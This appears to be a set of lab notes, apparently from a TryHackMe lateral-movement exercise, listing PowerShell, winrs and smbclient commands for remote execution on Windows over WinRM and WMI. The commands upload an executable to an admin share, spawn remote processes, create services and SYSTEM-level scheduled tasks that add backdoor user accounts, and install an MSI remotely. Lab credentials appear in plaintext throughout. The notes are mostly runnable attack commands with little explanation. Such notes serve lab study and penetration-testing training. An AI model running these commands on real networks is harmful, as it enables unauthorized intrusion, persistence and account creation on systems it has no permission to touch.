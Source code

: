 ### Common code for the above tecniques
`$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`

`smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever` *Upload what you want to execute on the shares (depends on the method you choose)*

# WinRM remote exec(required: Remote Management Users group- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS))
`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd` *One way*
`Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`

# WMI remote powershell through DCOM (port 135/TCP and ports 49152-65535/TCP)
`$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`

# WMI remote Process Creating
`$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}`

# WMI remote services
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete`

# WMI remote scheduled tasks
`$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`
# WMI remote MSI installation
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`
